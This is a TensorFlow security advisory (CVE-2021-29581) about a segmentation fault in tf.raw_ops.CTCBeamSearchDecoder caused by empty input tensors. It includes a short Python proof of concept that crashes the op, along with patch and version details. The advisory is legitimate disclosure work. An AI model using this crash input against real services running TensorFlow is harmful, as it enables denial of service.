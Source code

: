 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-069.md
## TFSA-2021-069: Segfault in `CTCBeamSearchDecoder`

### CVE Number
CVE-2021-29581

### Impact
Due to lack of validation in `tf.raw_ops.CTCBeamSearchDecoder`, an attacker can
trigger denial of service via segmentation faults:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[18, 8, 0], dtype=tf.float32)
sequence_length = tf.constant([11, -43, -92, 11, -89, -83, -35, -100],
shape=[8], dtype=tf.int32)
beam_width = 10
top_paths = 3
merge_repeated = True

tf.raw_ops.CTCBeamSearchDecoder(
  inputs=inputs, sequence_length=sequence_length, beam_width=beam_width,
  top_paths=top_paths, merge_repeated=merge_repeated)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/a74768f8e4efbda4def9f16ee7e13cf3922ac5f7/tensorflow/core/kernels/ctc_decoder_ops.cc#L68-L79)
fails to detect cases when the input tensor is empty and proceeds to read data
from a null buffer.

### Patches
We have patched the issue in GitHub commit
[b1b323042264740c398140da32e93fb9c2c9f33e](https://github.com/tensorflow/tensorflow/commit/b1b323042264740c398140da32e93fb9c2c9f33e).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
